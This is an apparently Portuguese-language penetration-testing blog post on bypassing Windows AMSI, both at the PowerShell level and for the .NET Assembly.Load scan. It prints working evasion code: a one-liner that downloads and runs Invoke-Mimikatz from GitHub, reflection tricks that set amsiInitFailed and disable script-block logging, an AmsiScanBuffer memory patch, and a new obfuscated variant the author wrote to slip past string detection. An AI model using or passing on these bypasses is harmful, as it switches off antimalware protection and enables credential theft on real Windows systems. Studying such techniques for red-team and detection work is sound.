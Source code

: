 ```yaml
---
title: Bypass de processos específicos de AMSI
author: H41stur
date: 2023-03-06 01:00:00 -0300
categories: [Estudos, AMSI Bypass]
tags: [AMSI, .NET, PowerShell]
image: "/img/posts/amsi.jpg"
alt: "Pentesting Android"
---
```


![Bypass de processos específicos de AMSI](/img/posts/amsi.jpg)


- [Introdução](#introdução)
- [*Bypass* de AMSI no Powershell](#bypass-de-amsi-no-powershell)
- [Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI](#diferença-entre-bypass-do-amsi-do-powershell-e-processos-específicos-do-amsi)


## Introdução

AMSI (*Antimalware Scan Interface*) é uma interface de programação de aplicativos (API) do Windows que permite que os aplicativos antivírus e outros softwares de segurança possam detectar e impedir a execução de *malwares* e scripts maliciosos em tempo de execução.

A AMSI foi introduzida no Windows 10 e no Windows Server 2016 e, desde então, tem sido amplamente adotada por vários aplicativos antivírus e softwares de segurança. A AMSI fornece uma camada adicional de segurança ao sistema operacional, permitindo que os aplicativos de segurança detectem *malwares* que podem passar despercebidos pelos softwares antivírus tradicionais. Ela pode ser usada para detectar e bloquear scripts maliciosos em várias linguagens de programação, como PowerShell, VBScript e JavaScript, além de outras formas de *malwares* que podem estar escondidos em arquivos ou em comunicações de rede.

Acontece que durante um teste em ambiente Windows, principalmente em *Active Directory* precisamos executar diversos scripts em PowerShell que, por muitas vezes, são considerados maliciosos (com razão) pelo AMSI. Para tanto é preciso uma forma de *bypass* deste mecanismo, a fim de "enganar" este sistema.

Existem vários métodos conhecidos, e funcionais disponíveis na internet, porém, nem todos são eficazes, pois o que é pouco divulgado, é fato de que, em algumas situações, existe mais de uma camada de AMSI para lidar.


## *Bypass* de AMSI no Powershell

Normalmente, para carregar um script PowerShell em memória para evitar detecção de arquivo malicioso por antivírus, utilizamos a função `Invoke-Expression`, em casos normais, como por exemplo, importar o `Invoke-Mimikatz`, utilizamos da seguinte forma:

```powershell
iex(New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```

Porém, o próprio AMSI do PowerShell reconhece este script como malicioso e geralmente nos retorna a seguinte mensagem:

![Detecção do AMSI](/img/posts/2023-03-06_16-19.png)

A mensagem `This script contains malicious content and has been blocked by your antivirus software.` é bem específica e nos mostra de forma clara que o AMSI considera o script como malicioso. Para tanto, existe uma infinidade de scripts públicos para o *bypass* do AMSI do PowerShell, além da possibilidade de tentar qualquer um disponível no [amsi.fail](https://amsi.fail/).

Podemos utilizar um comando comum como o abaixo para tentarmos efetuar o *bypass* como este:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

Este comando por sua vez, efetua o *bypass* do AMSI do PowerShell, nos permitindo importar o script em memória sem problemas, conforme abaixo.

![Bypass do AMSI no PwerShell](/img/posts/2023-03-06_16-39.png)

Porém, se tentarmos executá-lo, seremos apresentados a um novo erro.

![Erro na execução](/img/posts/2023-03-06_16-44.png)

```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '510976 bytes loaded from
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one
of its dependencies. An attempt was made to load a program with an incorrect format."
```
Diferente da mensagem de erro anterior, esta não nos diz absolutamente nada que a relacione com o AMSI, só informa que o formato dos binários estão incorretos.

Porém `AINDA ESTAMOS LIDANDO COM O AMSI!`

Neste caso, efetuamos o *bypass* do AMSI para o PowerShell em si, porém a `[System.Reflection.Assembly]::Load($byteOutArray)` "triggou" o `AMSI-Scan` para o binário `.NET`.

## Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI

Primeiramente é preciso entender como os processos conhecidos de *bypass* de AMSI funcionam, abaixo estão alguns dos métodos mais utilizados:

```powershell
# forçando um erro:
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

# Desabilitando o Script Logging:
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")

# Matt Graebers Reflection method:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Basicamente o que estes *snippets* fazem, é desabilitar o PowerShell Script-Logging ou alteram os subvalores do *namespace* `System.Management.Automation`. O `System.Management.Automation` é basicamente o *namespace* raiz do PowerShell.

O que podemos entender, é que todas estas técnicas, são específicas para o PowerShell, e afetam apenas a interface de verificação antimalware para o código de script do próprio Powershell.

Portanto, mesmo alterando os subvalores do *namespace* `System.Management.Automation`, não iremos quebrar o `.NET AMSI-Scan`, pois este não está relacionado com o PowerShell.

Acontece que quando iniciamos uma chamada no PwerShell a `amsi.dll` é carregada em um novo processo para fazer o *hook* de qualquer entrada em linha de comando e analisar o conteúdo das chamadas para `[System.Reflection.Assembly]::Load()`. Portanto, uma das técnicas mais eficazes para o *bypass* do .NET AMSI-Scan, é com `memory patching` do `amsi.dll`. Um artigo completo sobre esta técnica pode ser encontrado [aqui](https://rastamouse.me/memory-patching-amsi-bypass/). Neste caso, a `[System.Reflection.Assembly]::Load()` não cria um novo processo, portanto, efetuar o `memory patching` resultara no *bypass* tanto do *script-code* do PowerShell quanto do .NET AMSI-Scan.

Abaixo o exemplo de *bypass*  sugerido no artigo:

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Na maior parte dos casos, este script é funcional, porém como o processo do .NET AMSI-Scan também procura por *strings*, como `amsi.dll`, `AmsiScanBuffer`, `Invoke-Mimikatz` entre várias outras, acredito que o script possa ser melhorado para "encodar" estas *strings*, podendo ficar da seguinte forma:

```powershell
$AQERT = @"
using System;
using System.Runtime.InteropServices;
public class AQERT {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $AQERT

$POCVBOIU = [AQERT]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$IMUNT = [AQERT]::GetProcAddress($POCVBOIU, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[AQERT]::VirtualProtect($IMUNT, [uint32]5, 0x40, [ref]$p)
$FGJT = "0xB8"
$CXWE = "0x57"
$LKAS = "0x00"
$QAWS = "0x07"
$YHNM = "0x80"
$PLMN = "0xC3"
$AZKIU = [Byte[]] ($FGJT,$CXWE,$LKAS,$QAWS,+$YHNM,+$PLMN)
[System.Runtime.InteropServices.Marshal]::Copy($AZKIU, 0, $IMUNT, 6)
```

Ao executermos este script, faremos um *bypass* "global" do AMSI, permitindo a execução do script sem erros.

![Bypass global do AMSI](/img/posts/2023-03-06_17-27.png)


## Referências

- [amsi.fail](https://amsi.fail)
- [AmsiScanBufferBypass](https://rastamouse.me/memory-patching-amsi-bypass/)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)